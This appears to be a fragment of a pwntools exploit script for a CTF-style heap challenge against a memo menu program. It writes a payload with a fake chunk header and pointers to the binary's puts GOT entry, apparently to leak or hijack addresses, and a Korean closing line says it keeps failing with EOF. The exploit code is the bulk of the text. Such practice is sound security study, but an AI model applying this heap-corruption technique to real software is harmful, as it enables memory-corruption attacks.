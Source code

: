 ```python
    p.sendline(str(size))
    p.recvuntil("memo : ")
    p.send(content)
    
def show():
    p.recvuntil("> ")
    p.sendline("2")

def modify(old, new):
    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("memo : ")
    p.send(old)
    p.recvuntil("memo : ")
    p.send(new)
    
def delete(content):
    p.recvuntil("> ")
    p.sendline("4")
    p.recvuntil("memo : ")
    p.send(content)

def change(name):
    p.recvuntil("> ")
    p.sendline("5")
    p.recvuntil(" : ")
    p.send(str(name))

p.recvuntil('name : ')
p.send('leeminjea')

create(40, 'A'*8)
create(40, 'B'*8)
create(40, 'C'*8)

input()
pay = b''
pay += b'B'*0x8 + p64(0)
pay += p64(0) + p64(0x31)
pay += p64(0) + p64(e.got['puts'])
pay += p64(e.got['puts'])
modify('BBBBBBBB\x00', pay)

show()

p.interactive()
```

그렇지만 계속 eof가 뜬다 모지,,,
